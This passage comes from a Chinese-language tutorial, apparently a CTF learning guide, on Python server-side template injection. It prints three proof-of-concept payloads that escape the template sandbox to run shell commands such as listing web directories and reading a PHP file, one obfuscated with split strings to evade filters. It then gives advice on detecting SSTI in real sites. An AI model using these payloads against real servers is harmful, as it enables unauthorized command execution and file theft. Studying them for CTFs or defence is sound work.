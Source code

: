 5. 收藏的一些poc
   ```
   ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

   object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

   {{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')} }
   ```
   还有就可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/

# 6. 漏洞挖掘
对于一些师傅可能更偏向于实战，但是不幸的是实战中几乎不会出现ssti模板注入，或者说很少，大多出现在python 的ctf中。但是我们还是理性分析下。

每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则,就如同 SQL 注入中有着不同的数据库类型一样。更改请求参数使之承载含有模板引擎语法的 Payload,通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析,不同的引擎不同的解析。所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候`{{} }`并没有用，导致错误判断。

接下来附张图，实战中要测试重点是看一些url的可控，比如url输入什么就输出什么。前期收集好网站的开发语言以及框架，防止错误利用`{{} }`而导致错误判断。如下图较全的反映了ssti的一些模板渲染引擎及利用。
![ssti](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/ssti.png)
